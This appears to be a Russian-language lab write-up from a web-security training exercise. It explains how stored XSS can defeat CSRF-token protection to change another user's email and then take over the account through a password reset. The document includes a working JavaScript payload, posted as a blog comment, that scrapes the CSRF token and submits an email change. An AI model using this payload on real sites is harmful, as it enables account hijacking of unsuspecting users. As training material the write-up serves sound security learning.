



# Exploiting XSS to perform CSRF

## Theory

<h3>Использование межсайтового сценариев для выполнения CSRF</h3>

Все, что законный пользователь может сделать на веб-сайте, вы, вероятно, сможете сделать и с помощью XSS. В зависимости от сайта, на который вы нацелены, вы можете заставить жертву отправить сообщение, принять запрос на добавление в друзья, зафиксировать бэкдор в хранилище исходного кода или перевести немного биткойнов.

Некоторые веб-сайты позволяют вошедшим в систему пользователям изменять свой адрес электронной почты без повторного ввода пароля. Если вы обнаружили уязвимость XSS, вы можете заставить ее активировать эту функцию, чтобы изменить адрес электронной почты жертвы на тот, который вы контролируете, а затем инициировать сброс пароля, чтобы получить доступ к учетной записи.

Этот тип эксплойта обычно называют подделкой межсайтовых запросов (CSRF), что немного сбивает с толку, поскольку CSRF также может возникать как отдельная уязвимость. Когда CSRF возникает как отдельная уязвимость, ее можно исправить с помощью таких стратегий, как токены защиты от CSRF. Однако эти стратегии не обеспечивают никакой защиты, если также присутствует уязвимость XSS.

## Writeup

* Имеющиеся данные: 
    * Данные нашего пользователя: wiener:peter

Главная страница:


Логинимся с имеющимися данными. Попробуем сменить почту аккаунта. Перехватим запрос. Мы можем заметить, что приложение использует CSRF токен для обеспечения защиты.



Перейдем к посту и спустимся в низ страницы. Мы можем заметить поле для комментария.



Запишем в поле комментария наш эксплоит. Мы будем получать токен CSRF и изменять почту другого пользователя, на почту, подконтрольную нами. Код эксплоита:
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```



Оставляем комментарий и получаем ответ от сервера.

